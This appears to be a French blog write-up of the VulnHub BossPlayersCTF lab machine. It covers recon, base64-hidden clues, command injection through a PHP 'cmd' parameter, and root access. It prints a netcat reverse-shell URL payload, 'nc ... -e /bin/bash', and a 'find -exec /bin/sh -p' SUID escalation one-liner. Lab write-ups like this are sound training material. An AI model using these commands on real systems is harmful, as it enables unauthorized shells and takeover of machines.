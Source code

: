 ```yaml
---
layout: post
title: VulnHub - BossPlayersCTF
subtitle: VulnHub - Linux Machine - Easy 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [VulnHub, Find]
comments: false
---
```


![Logo](/img/Vulnhub_logo.png){: .center-block :}

BossPlayers est une machine vulnérable créée par Cuong Nguyen et disponible depuis septembre 2019 en téléchargement sur [VulnHub](https://www.vulnhub.com/entry/jis-ctf-vulnupload,228/). Elle est également proposée sur la plateforme d'[Offensive Security](https://www.offensive-security.com/labs/individual/).

## 1. User

Nmap:

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# nmap -sC -sV 192.168.185.20
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-15 11:56 CET
Nmap scan report for 192.168.185.20
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 ac:0d:1e:71:40:ef:6e:65:91:95:8d:1c:13:13:8e:3e (RSA)
|   256 24:9e:27:18:df:a4:78:3b:0d:11:8a:92:72:bd:05:8d (ECDSA)
|_  256 26:32:8d:73:89:05:29:43:8e:a1:13:ba:4f:83:53:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.17 seconds
~~~

Les ports http (80) et ssh (22) sont ouverts.

Port 80:

![Logo](/img/Boss_1.png){: .center-block :}

Robots.txt:

![Logo](/img/Boss_2.png){: .center-block :}

`super secret password - bG9sIHRyeSBoYXJkZXIgYnJvCg==`

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
lol try harder bro
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# 
~~~

Le code source donne rien a premiere vue. Dirb ne donne aucun résultat

retour au code source, défiler jusqu'en bas:

![Logo](/img/Boss_3.png){: .center-block :}

~~~
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d
d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d | base64 -d | base64 -d
workinginprogress.php
root@Host-001:~/Bureau/OSCP_Box/BossPlayersCTF# 
~~~

workinginprogress.php

![Logo](/img/Boss_4.png){: .center-block :}

ping command = ping argument ?

![Logo](/img/Boss_5.png){: .center-block :}

NOPE ! cmd argument ?

![Logo](/img/Boss_6.png){: .center-block :}

Oooo on peut lancer des commandes ! nc ?

Ref: [0xSs0rZ - GitBook](https://0xss0rz.gitbook.io/0xss0rz/pentest-htb/web-1/shell-reverse-shell#netcat-reverse-shell)

lancer un listener sur le port 1337 et visiter http://192.168.185.20/workinginprogress.php?cmd=nc%20192.168.49.185%201337%20-e%20/bin/bash

uploader LinEnum et le lancer. On trouve

![Logo](/img/Boss_7.png){: .center-block :}

Find SUID - GTFOBins: [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

`find . -exec /bin/sh -p \; -quit`

![Logo](/img/Boss_8.png){: .center-block :}

~~~
www-data@bossplayers:/tmp$ ffiinndd  ..//  --eexxeecc  //bbiin/ban/bsashh  --pp  \\;;

bash-5.0# iiss

bash: is: command not found
bash-5.0# iidd

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# ccdd  //rroootot

bash-5.0# lsls

proof.txt  root.txt
bash-5.0# ccaatt  rroooott..ttxxtt

Your flag is in another file...
bash-5.0# ccaatt  pprrooooff..ttxxtt

07461c1b296dc93f559fdc0ec472838e
bash-5.0# 
~~~

**Poursuivez avec :** 

[- VulnHub - JIS CTF](https://0xss0rz.github.io/2020-11-16-VulnHub-JISCTF/)

[- HTB - Admirer](https://0xss0rz.github.io/2020-10-04-HTB-Admirer/)

[- HTB - Magic](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
